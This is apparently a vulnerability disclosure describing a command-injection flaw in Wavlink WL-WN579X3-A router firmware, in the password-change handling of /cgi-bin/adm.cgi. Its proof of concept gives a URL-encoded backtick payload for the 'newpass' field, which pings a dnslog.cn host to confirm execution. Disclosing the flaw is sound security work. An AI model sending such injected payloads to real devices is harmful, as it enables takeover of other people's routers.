 
A issue was dicovered on wavlink device with firmware at least from M79X3.V5030.180530 to M79X3.V5030.201201(newest version for now).   

A remote attacker can execute arbitrary code by sending  a crafted POST request to /cgi-bin/adm.cgi.    


## Intro 

When I was trying to analyze CVE-2020-10971，I downloaded the newest WL-WN579X3-A firmware posted on the official website of Wavlink.   

Firmware: https://www.wavlink.com/en_us/firmware/details/3a4d65ad3d.html  

After I checked all the code branches, I couldn't find the CVE-2020-10971, then I find a more old version firmware on the internet, I do notice that there was a RCE problem at adm.cgi correspond to https://james-clee.com/2020/04/18/multiple-wavlink-vulnerabilities/ .     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/5.png?raw=true)   

However I notice another RCE at the code branch which is responsible for handling password changes.  

Older versions of the firmware do not have this problem, but newer versions has RCE problem when the web server are handling the request for changing the password from authenticated user.  

## The problem code    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/6.png?raw=true)    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/7.png?raw=true) 

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/8.png?raw=true) 


## POC  

It not just affect the newest firmware, but alse the older version (at the newest version, serveral IP checks made the attacker can only use the RCE in adjacent networks).  

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/1.png?raw=true)     

Set the 'newpass' value as %60ping%20-c%201%203vkslf.dnslog.cn%60     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/9.png?raw=true)   

After I sended the POST request, DNSlog platform had the records   

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/10.png?raw=true) 







